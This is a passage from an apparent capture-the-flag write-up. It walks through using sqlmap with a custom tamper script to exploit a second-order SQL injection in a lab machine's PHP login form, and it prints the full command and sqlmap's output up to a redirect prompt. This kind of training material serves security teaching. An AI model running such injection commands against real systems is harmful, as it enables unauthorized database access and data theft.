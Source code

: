         user=aaaabcddddd&pass=df&login=Login

    </div>

    </div>

-   `--dbms mysql` - given this is a linux host, and mysql is common
    with the linux / php stack, we'll guess this to speed things up. If
    `sqlmap` disagrees, it will tell us.

-   `--tamper tamper-nightmare.py` - our tamper script from above

-   `--second-order 'http://10.10.10.66/notes.php'` - after the request
    to `index.php` to login, visit this url to check for results

-   `-p user` - we know from the manual work that the injectable
    parameter is the username

-   `--proxy http://127.0.0.1:8080` - send requests through Burp for
    analysis. Would probably remove this prior to a big dump of the
    database to speed things up

## Details of Initial Run

We start `sqlmap` with the commands above, and it runs until the
following prompt:



    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080
            ___
           __H__
     ___ ___[)]_____ ___ ___  {1.2.6#stable}
    |_ -| . ["]     | .'| . |
    |___|_  [,]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting at 21:05:01

    [21:05:01] [INFO] parsing HTTP request from 'login.request'
    [21:05:01] [INFO] loading tamper module 'tamper-nightmare'
    [21:05:02] [INFO] testing connection to the target URL
    sqlmap got a 302 redirect to 'http://10.10.10.66/index.php'. Do you want to follow? [Y/n]



Up to this point, we can see in burp that two queries have been sent - a
POST to `/index.php` to login, which returns a 'Wrong username or
password' message because the user doesn't exist, followed by a GET
request to `/notes.php`, which returned a 302 redirect to `/index.php`
because there's no active session. But even if we had successfully
logged in, we don't need to follow that redirect, as we'll be making the
second-order visit to `/notes.php` for each query. So we'll select `n`.
